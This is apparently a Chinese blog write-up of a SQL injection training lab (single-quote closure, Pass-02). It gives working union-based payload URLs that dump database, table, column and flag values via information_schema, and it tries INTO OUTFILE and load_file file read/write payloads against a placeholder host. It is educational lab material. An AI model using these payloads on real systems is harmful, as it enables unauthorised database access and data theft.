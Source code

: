 ```yaml
---
date: "2020-12-09T00:00:00Z"
description: sql 注入靶场练习 单引号报错注入
keywords: SQL注入, oob带外, dnslog
tags:
- 安全
- SQL注入
title: 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入
---
```


# 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入

+ 课程目标 `https://hack.zkaq.cn/battle/target?id=695d4b6fe02d0bf3`

> **注意**, **误区** : 一定 **不要认为** 所有错误都会被反映到页面上， 程序会处理错误逻辑，并隐藏。


## 0x01. 判断注入点

### 引号探测

使用 `http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=1 --+`。 可以正常显示结果， 但 `1=2 --+` 不行。 

> 判断为 **单引号** 闭合。


### 错误姿势


```sql
-- 1. 语句错误, 测试了 `select 1 到 7`。 都没发现可以显示的注入点。 
http://vulhub.example.com:81/Pass-02/index.php?id=1' and select 1,2,3,4,5,6,7 --+ 
```
> 1. 首先`语句错误` ， 这里应该使用 **联合查询（UNION）** 确认注入点，而非 **AND**

```sql
-- 2. 联合查询判断条件错误, 显示结果不提示注入点
http://vulhub.example.com:81/Pass-02/index.php?id=1' union select 1,2,3 --+ 1
```
> 2. 使用联合查询后使用 `id=1'` 并不能确认 `select 1,2,3` 的注入点， 因为 **UNION 求并集** 依旧会显示正常查询结果。 如图 *select-union-condition-miss.png* 所示

![select-union-condition-miss.png](/assets/img/post/2020/12/09/select-union-condition-miss.png)


### 正确姿势

```sql
-- 1. 正确判断, --+ 注释
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 --+ 1
```

```sql
-- 2. 正确判断, # 号注释。 urlcode %23  = #
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 %23+ 1
```

1. `id=1' and 1=2` : 闭合 **左单引号** ， 错误截断 。
2. `1=2 union select 1,2,3` : 尝试注入点
3. `--+ 1` 或 `%23+ 1` : 注释右单引号 。 

> **Notice** : `+` 将在 URL Code 中转为为 **空格 ` `**


## 0x02. 数据查找

找到了 **注入显示点** 之后， 剩下的就是是 **联合查询** 的问题了 ， 可以说的东西不多

### 0x02.1. 查询库名, 表名

由于有 **2 和 3** 两个可注入点， 因此在构造语句的时候，使用了 **2条自查询**

1. `select database()` : 查询当前库名
2. `select group_concat(table_name) from information_schema.tables where table_schema=database())` : 通过 `information_schema` 库查询当前所有表名。

```sql
-- dump dbname and tablename 
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1, (select database()), (select group_concat(table_name) from information_schema.tables where table_schema=database()) --+ 1


-- dbname: error
-- tablenames: error_flag,user
```

### 0x02.2. 查询列名

```sql
--- dump column name
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='error_flag' --+ 1


-- columns: Id,flag
```

![dump-column-name.png](/assets/img/post/2020/12/09/dump-column-name.png)

### 0x02.3. 查询 flag 所有字段值

```sql
--- dump flag values
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

-- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```

### 0x03 提交

五个过关 Flag 中 应该只有一个是正确的， 所以需要轮训尝试。

> 第一关的时候我以为 5 个都可以用。 结果随机选择的时候，发现有错误， 还以为程序异常呢。



## 0x04 尝试方法

**1. 使用 OOB (out of band) 带外测试**

最开始在遇到 **注入显示点** 问题的时候， 本准备放弃查找显示点。 替换使用 **`OOB` 带外测试 - Dnslog 测试** 直接一把梭把所有数据全部提交到 `dnslog.cn` 上 。

然而意想不到的是， `dnslog 测试` 不可用， `load_file` 构造的请求无法成功。

**2. OOB 文件 测试法**

在查找 `load_file()` 函数使用过程中， 找到了以下 paper 。 使用 `INTO OUTFILE` 将结果存储到 目标目录。

> https://www.exploit-db.com/papers/14635

+ `select database`

```sql
--- select database
http://vulhub.example.com:81/Pass-02/index.php?id=1' union all select database() INTO OUTFILE '/tmp/1.txt' --+ 1

```

+ `select load_file`

```sql
--- select load_file
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union all select 1,2,(select load_file('/tmp/1.txt' )) --+ 1
```

然而失败了。 T_T 。

